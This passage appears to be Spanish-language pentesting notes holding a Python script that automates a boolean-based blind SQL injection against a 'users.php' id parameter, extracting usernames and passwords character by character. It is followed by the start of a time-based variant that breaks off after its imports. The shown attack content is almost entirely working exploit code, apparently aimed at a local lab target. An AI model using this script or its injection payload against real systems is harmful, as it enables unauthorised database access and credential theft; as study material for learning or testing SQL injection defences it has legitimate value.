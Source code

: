     import requests
    import signal
    import sys
    import time
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	sys.exit(1)
    
    # cltr_c
    signal.signal(signal.SIGINT, def_handler)
    
    # Variables de entorno
    main_url = "http://localhost/users.php"
    
    def makeSQLI():
    
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando fuerza bruta...")
    
    	time.sleep(2)
    
    	p2 = log.progress("Datos extraÃ­dos")
    
    	extracted_info = ""
    
    	for position in range(1, 150):
    		for character in range(33, 126):
    			sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id=1)=%d)" % (position, character)
    
    			p1.status(sqli_url)
    
    			r = requests.get(sqli_url)
    
    			if r.status_code == 200:
    				extracted_info += chr(character)
    				p2.status(extracted_info)
    				break
    
    if __name__ == '__main__':
    
    	makeSQLI()
    ```
    
- Script para fuzzear usuarios y contraseñas basado en el tiempo
    
    ```bash
    #!/usr/bin/python3
    
    import requests
    import signal
    import sys
    import time
    from pwn import *
    